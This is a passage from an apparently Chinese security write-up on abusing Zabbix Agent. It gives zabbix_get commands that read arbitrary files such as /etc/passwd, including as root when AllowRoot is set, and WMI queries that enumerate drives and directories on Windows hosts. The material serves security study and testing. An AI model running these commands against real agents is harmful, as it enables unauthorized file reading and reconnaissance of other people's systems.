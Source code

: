 ### <a class="reference-link" name="3.%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96"></a>3. 任意文件读取

Zabbix Agent如果没有配置不当的问题，是否有其他姿势可以利用呢？答案是肯定的。

Zabbix原生监控项中，`vfs.file.contents`命令可以读取指定文件，但无法读取超过64KB的文件。

```
zabbix_get -s 172.19.0.5 -p 10050 -k "vfs.file.contents[/etc/passwd]"
```

[![](https://p4.ssl.qhimg.com/t011229435d97d901ee.jpg)](https://p4.ssl.qhimg.com/t011229435d97d901ee.jpg)

**zabbix_agentd服务默认以低权限用户zabbix运行，读取文件受zabbix用户权限限制。开启AllowRoot参数情况下zabbix_agentd服务会以root权限运行，利用`vfs.file.contents`命令就能任意文件读取。**

如果文件超过64KB无法读取，在了解该文件字段格式的情况下可利用`vfs.file.regexp`命令正则获取关键内容。

### <a class="reference-link" name="4.%20Windows%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86"></a>4. Windows目录遍历

Zabbix原生监控项中，`wmi.get`命令可以执行WMI查询并返回第一个对象，通过WQL语句可以查询许多机器信息，以下例举几种利用场景：
- 遍历盘符
由于`wmi.get`命令每次只能返回一行数据，所以需要利用WQL的条件语句排除法逐行获取数据。

比如WQL查询盘符时，只返回了C:

```
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM Win32_LogicalDisk\"]"
```

通过追加条件语句排除已经查询处理的结果，从而获取下一行数据。

```
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM Win32_LogicalDisk WHERE Name!='C:'\"]"
```

可通过脚本一直追加条件语句进行查询，直至出现`Cannot obtain WMI information.`代表WQL已经无法查询出结果。从图中可以看到通过`wmi.get`命令查询出了该机器上存在C:、D:盘符。

[![](https://p3.ssl.qhimg.com/t01750894d2aff57471.jpg)](https://p3.ssl.qhimg.com/t01750894d2aff57471.jpg)
- 遍历目录
获取C:下的目录，采用条件语句排除法逐行获取。

```
zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Caption FROM Win32_Directory WHERE Drive='C:' AND Path='\\\\' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Caption FROM Win32_Directory WHERE Drive='C:' AND Path='\\\\' AND Caption != 'C:\\\\\$Recycle.Bin' \"]"

zabbix_get -s 192.168.98.2 -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Caption FROM Win32_Directory WHERE Drive='C:' AND Path='\\\\' AND Caption != 'C:\\\\\$Recycle.Bin' AND Caption != 'C:\\\\\$WinREAgent' \"]"

...
```
